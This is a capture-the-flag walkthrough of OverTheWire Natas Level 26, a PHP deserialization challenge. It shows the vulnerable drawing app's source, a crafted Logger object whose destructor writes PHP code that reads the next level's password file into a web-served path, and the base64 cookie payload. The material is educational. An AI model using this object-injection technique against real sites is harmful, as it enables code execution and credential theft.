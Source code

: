 # Natas
> Level : Natas Level 26<br/>
> Solved : 3rd August 2021<br/>
> Remarks : PHP Deserialization<br/>
<br/>

## Quest
We are presented with a simple Drawing Application

![](./images/Level26.png)

<br/>
Backend Code 
```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
  
        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$initMsg);
        fclose($fd);
    }                       
  
    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }                       
  
    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }                       
}
 
function showImage($filename){
    if(file_exists($filename))
        echo "<img src=\"$filename\">";
}

function drawImage($filename){
    $img=imagecreatetruecolor(400,300);
    drawFromUserdata($img);
    imagepng($img,$filename);     
    imagedestroy($img);
}

function drawFromUserdata($img){
    if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $color=imagecolorallocate($img,0xff,0x12,0x1c);
        imageline($img,$_GET["x1"], $_GET["y1"], 
                        $_GET["x2"], $_GET["y2"], $color);
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        if($drawing)
            foreach($drawing as $object)
                if( array_key_exists("x1", $object) && 
                    array_key_exists("y1", $object) &&
                    array_key_exists("x2", $object) && 
                    array_key_exists("y2", $object)){
                
                    $color=imagecolorallocate($img,0xff,0x12,0x1c);
                    imageline($img,$object["x1"],$object["y1"],
                            $object["x2"] ,$object["y2"] ,$color);
        
                }
    }    
}
    
function storeData(){
    $new_object=array();

    if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $new_object["x1"]=$_GET["x1"];
        $new_object["y1"]=$_GET["y1"];
        $new_object["x2"]=$_GET["x2"];
        $new_object["y2"]=$_GET["y2"];
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    }
    else{
        // create new array
        $drawing=array();
    }
    
    $drawing[]=$new_object;
    setcookie("drawing",base64_encode(serialize($drawing)));
}
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<?php
    session_start();
    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
?>
```
<br/>

## Solution

Lot of code to go through and most of it is concerned with drawing the image according to provided coordinates.

If we leave out function declarations, the PHP that gets executed is at the bottom.

The application draws lines either by coordinates provided or by deserializing the `drawing` cookie.

One things that strikes out in the code is `unserialize` and `serialize` functions. This calls for checking if Serialization Bugs are present.

What is Serialization?<br/>
>Serialization is when an object in a programming language is converted into a format that can be stored or transferred. Whereas deserialization is the opposite,  it’s when the serialized object is read from a file or the network and converted back into an object.


Lets deserialize the cookie:
```php
<?php

$drawing = unserialize(base64_decode("YToyOntpOjA7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO31pOjE7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO319"));
print_r($drawing);
```

Output
```
$ php drawing.php
Array
(
    [0] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

    [1] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

)
```

After deserializing the `drawing` cookie, we get an array of coordinates used to create the lines.

In case of serialization bugs, we take advantage of the constructor and destructor function that runs when an object is created or destroyed.

Lets look at the `Logger` class, both constructor and destructor .i.e. `__construct` and `__destruct` function write to a file . They write the contents of variable `initMsg` and `exitMsg` to the file. Lets create an object 

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="Serialization Buggs!!!\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/log.txt";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";
```

Output
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbG9nLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIzOiJTZXJpYWxpemF0aW9uIEJ1Z2dzISEhCiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
```

Observations:
  - We get the contents of the file storing password for next Level <br/>
  - we can write to `img` directory, so we store log file there. <br/>

We send a Logger object into a function that’s expecting arrays with coordinates, so this will give an error. But our exploit works because the objected is loaded into the `$drawing` variable, so when its life ends, the destructor will be called in turn writing our exploit to file and that's all we need.

Below we send our serialized object as cookie. (appended `%3D` for `=` )

![](./images/Level26_solution.png)

<br/>
Now, lets access the file that we wrote

![](./images/Level26.1_solution.png)

<br/>
We can see that our file gets written with our code but doesn't execute, let change `.txt` to `.php` in our serialized object and recreate it and that will execute to present the password for next level.

![](./images/Level26.2_solution.png)

<br/>
<span id=green>**Takeaway**</span><br/>

  - Whenever we see `unserialize` and `serialize` functions in code, ALWAYS test it.<br/>
  - Test chunks of code locally, gr8 for understanding and exploiting.<br/>

<br/>
That's Level 26 

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
